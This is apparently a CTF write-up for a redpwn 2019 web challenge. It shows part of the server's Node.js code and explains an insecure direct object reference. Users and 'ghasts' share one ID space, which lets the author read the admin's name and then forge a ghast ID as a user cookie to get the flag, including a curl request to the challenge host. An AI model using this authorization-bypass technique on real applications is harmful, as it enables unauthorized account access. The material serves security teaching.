 ```js
    }
    if (user.name === secrets.adminName) {
      res.writeHead(200)
      res.end(secrets.flag)
    } else {
      res.writeHead(403)
      res.end('only the admin can wield the flag')
    }
  } else if (req.url === '/register' && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(registerPage)
  } else if (req.url === '/ghasts/make' && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(ghastMakePage)
  } else if (req.url.startsWith('/ghasts/') && req.method === 'GET') {
    res.writeHead(200, {
      'content-type': 'text/html',
    })
    res.end(ghastViewPage)
  } else {
    res.writeHead(404)
    res.end('not found')
  }
}).listen(80, () => {
  console.log('listening on port 80')
})
```

One can browse to `api/flag`, but the account must be unlocked (only the admin account is lock by default), and the username must be the same as the admin's one. However, one cannot register with the admin's username (which is supposed to be unknown)
I read [this write-up ](https://kuhi.to/2019/08/15/redpwn-ctf-2019-writeup/#web-1) telling that incrementing the ID until getting the flag was sufficient. However, I didn't think about it and did it differently.

I knew that the admin was the first user that was registered, then its ID must be `ghast:0`. Base64-encode this and browse to `api/things/<base64-encoded id>` revealed the admin's name: `{"name":"sherlockholmes99","locked":true}`

The weakness I exploited was the fact that ghasts' ID and users' ID were the same, and both objects had an attribute `name`. It meant that once we knew the admin username, we only had to create a ghast with  `sherlockholmes99` as its name, and use the newly created ghast ID as a user to get the flag

At the beginning, the user ID was `Z2hhc3Q6OTQ5MjQ`

```
$ curl -H 'Cookie: user=Z2hhc3Q6OTQ5MjQ' --data '{"name": "sherlockholmes99"}' http://chall.2019.redpwn.net:8008/api/ghasts -v
*   Trying 34.223.35.192...
* TCP_NODELAY set
* Connected to chall.2019.redpwn.net (34.223.35.192) port 8008 (#0)
> POST /api/ghasts HTTP/1.1
> Host: chall.2019.redpwn.net:8008
> User-Agent: curl/7.52.1
> Accept: */*
> Cookie: user=Z2hhc3Q6OTQ5MjQ
> Content-Length: 28
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 28 out of 28 bytes
```